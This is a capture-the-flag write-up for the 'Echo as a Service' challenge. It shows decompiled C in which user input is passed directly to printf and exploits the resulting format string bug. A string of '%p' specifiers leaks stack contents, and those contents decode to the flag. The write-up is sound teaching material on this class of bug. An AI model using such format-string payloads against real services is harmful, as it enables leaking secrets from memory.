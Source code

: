 # Echo as a Service

## Description

> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.
> 
> `nc challenges.tamuctf.com 4251`

The corresponding binary is given.

## Solution

Let's reverse the code using [Ghidra](https://ghidra-sre.org/).

```c

void main(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_48 [32];
  char local_28 [24];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x2,0,0);
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) {
    fgets(local_48,0x19,__stream);
  }
  do {
    puts("Echo as a service (EaaS)");
    gets(local_28);
    printf(local_28);
    putchar(10);
  } while( true );
}
```

The program opens the flag and loads it on the stack (buffer `local_48`) then the program acts as an echo: we give it an input, and it prints it back.

The instruction to write the string back is `printf(local_28);`: this is vulnerable to format string attack. The idea of a format string attack is to include formats in the string in order to leak or modify data. For instance giving the string `%p` leaks the first number on the stack. As the flag is on the stack, we can recover the flag.

Note: a more safe use would be to use `printf("%s", local_28);`


The payload is therefore a series of `%p` in order to retrieve the flag. By giving 10`%p`, we get back the following string:

```
0x558d47fd84a1 0x7f2ba63338d0 0x7f2ba6331a00 0x558d47fd84c1 (nil) 0x7ffde96a82f8 0x558d47fd7260 0x61337b6d65676967 0x616d7230665f7973 0x7d316e6c75765f74
```

The last 3 integers can be decoded (using [asciitohex](https://www.asciitohex.com/) for example) to the flag.

Flag: `gigem{3asy_f0rmat_vuln1}`